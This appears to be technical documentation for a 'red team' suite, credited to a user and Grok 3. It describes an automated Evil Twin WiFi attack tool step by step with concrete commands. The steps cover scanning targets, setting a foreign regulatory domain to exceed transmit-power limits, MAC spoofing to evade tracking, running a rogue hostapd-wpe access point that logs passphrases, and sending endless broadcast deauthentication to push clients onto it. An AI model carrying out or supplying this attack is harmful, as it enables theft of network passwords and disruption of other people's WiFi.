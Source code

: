 # CyberPunk Suite: Red Team Tools Technical Documentation

**Version**: 1.0  
**Date**: March 5, 2025  
**Authors**: [Your Name] + xAI (Grok 3)  
**Purpose**: Advanced suite of red team tools for WiFi exploitation, remote access, IoT attacks, and unconventional methods—developed for Kali Linux and rooted Android (CyberPunkDroid).

---

## 1. HackedPunk: WiFi Evil Twin Attack Tool

### Purpose
Automates an Evil Twin attack to dominate WiFi signals, harvest passwords, and release clients—optimized for red team WiFi penetration testing.

### Technical Process
1. **Scan Targets**:
   - **Command**: `airodump-ng --output-format csv -w hackedpunk_dump wlan0mon`
   - **Details**: Runs for 10s, captures BSSIDs, SSIDs, channels, signal levels (dBm). Parses CSV with regex `r"(\S+)\s+(\d+)\s+(.+?)\s+(-?\d+)"`—sorts by signal (`int(row[8])`), picks strongest WPA/WPA2 AP.
   - **File**: `/tmp/hackedpunk_dump-01.csv`—CSV format, e.g., `BSSID, Channel, ESSID, Signal`.
2. **Signal Domination**:
   - **Commands**: 
     - `iw reg set BO`—sets regulatory domain to Bolivia (30 dBm max).
     - `ifconfig wlan0 down; iwconfig wlan0 txpower 30; ifconfig wlan0 up`
     - `macchanger -r wlan0`—randomizes MAC (e.g., `00:11:22:33:44:55`).
   - **Details**: Boosts TX power to 1W (adapter-dependent—e.g., ALFA AWUS036NHA supports 30 dBm), evades tracking via MAC spoofing.
3. **Rogue AP**:
   - **Command**: `hostapd-wpe hostapd.conf`
   - **Config**: `/tmp/hostapd.conf`—`interface=wlan0`, `driver=nl80211`, `ssid=<target_ssid>`, `hw_mode=g`, `channel=<target_channel>`, `ieee80211n=1`.
   - **Details**: Runs in background (`Popen`), accepts any WPA/WPA2 passphrase, logs to `/var/log/hostapd-wpe.log`—STA (MAC) and passphrase entries.
4. **Mass Deauth**:
   - **Command**: `aireplay-ng --deauth 0 -a <target_bssid> wlan0mon`
   - **Details**: Infinite deauth packets (`--deauth 0`), broadcast to `ff:ff:ff:ff:ff:ff`—forces clients to rogue AP, runs in thread.
5. **Capture & Release**:
   - **Details**: Monitors `/var/log/hostapd-wpe.log`—regex `r"STA: (\S+)"` and `r"Passphrase: (.+)"` extract MAC and password. Deauths each client post-capture (`aireplay-ng --deauth 10 -a <rogue_mac> -c <client_mac>`).
   - **File**: `/tmp/captured_creds.txt`—format: `<timestamp> | MAC: <mac> | Passphrase: <password>`.

### Tools
- **Kali**: 
  - `aircrack-ng`: `airmon-ng` (monitor mode), `airodump-ng` (scan), `aireplay-ng` (deauth).
  - `hostapd-wpe`: Rogue AP with WPA/WPE logging.
  - `macchanger`: MAC spoofing.
  - `iwconfig`, `iw`: Signal control.

